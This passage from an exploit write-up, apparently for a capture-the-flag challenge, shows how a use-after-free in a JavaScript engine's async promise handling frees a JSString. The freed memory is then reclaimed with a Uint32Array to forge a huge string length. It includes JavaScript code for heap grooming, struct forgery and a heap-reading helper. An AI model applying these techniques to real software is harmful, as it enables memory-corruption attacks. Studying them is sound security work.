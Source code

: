 In order to get leaks I did the same thing that we did to `arr`, but this time to a string. If we can cause a `JSString` to be freed and then allocate a `Uint32Array` whose data pointer points to the `JSString` struct memory, we can manipulate the length of the `JSString` and set it to some huge value, and then we can have oob read on the heap through that string.

```js
var str = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ";	// a JSString that occupies an 0x50-sized chunk
...
async function fn2() {
	console.log("fn2");
	return str;
}
...
fn1().then({
	fn1().then({
		...
		// do stuff related to causing UAF for 'arr'
		...
		fn2().then({
			fn2().then({
				// 'str' gets freed here while we still have a reference to it.

				// allocate more objects to bring str's freed memory near the top of tcachebin
				for (let i = 0; i < 6; i++) {
					objs.push({a: 1});
				}

				// allocate a typed array with its data pointer pointing to str's freed memory (freed JSString struct)
				var uaf_str_arr = new Uint32Array(18);

				// set metadata of the JSString struct
				uaf_str_arr[0] = 2;	// large refcount to avoid it getting freed by gc
				uaf_str_arr[1] = 0x10000000;	// huge length
				uaf_str_arr[2] = 0x497f93b1;	// some metadata I copied from original 'str'
				uaf_str_arr[3] = 0x4b;			// some metadata I copied from original 'str'
				
				...
			});
		});
	});
});
```

This has the exact same process as exploiting `arr`. You just have to adjust the size of the initial content of `str` so that its `JSString` struct is allocated in an 0x50-sized chunk, so allocating `{a: 1}` objects will allocate from the same malloc freelist as it.

Now that we can read stuff from the heap, I wrote a helper function to read a dword from the heap:

```js
const read_dword = (offset) => {
	let result = 0;
	for (let i = 3; i >= 0; i--) {
		result = (result << 8) | str.charCodeAt(offset + i);
	}
	return result;
};
```
